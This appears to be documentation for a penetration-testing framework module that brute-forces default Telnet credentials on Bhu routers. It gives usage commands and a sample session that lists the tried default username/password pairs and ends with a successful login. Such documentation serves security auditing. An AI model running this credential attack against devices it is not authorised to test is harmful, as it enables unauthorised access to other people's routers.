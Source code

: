 ## Description

Module performs dictionary attack with default credentials against Bhu Router Telnet service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/routers/bhu/telnet_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/bhu/telnet_default_creds
rsf (Bhu Router Default Telnet Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Bhu Router Default Telnet Creds) > run
[*] Running module...
[*] Target exposes Telnet service
[*] Starting default credentials attack against Telnet service
[*] thread-0 thread is starting...
[-] Telnet Authentication Failed - Username: 'admin' Password: 'admin'
[-] Telnet Authentication Failed - Username: '1234' Password: '1234'
[-] Telnet Authentication Failed - Username: 'root' Password: '12345'
[-] Telnet Authentication Failed - Username: 'root' Password: 'root'
[+] Telnet Authentication Successful - Username: 'user' Password: 'user'
[*] thread-0 thread is terminated.
[*] Elapsed time: 5.389287948608398 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     23       telnet      user         user

```
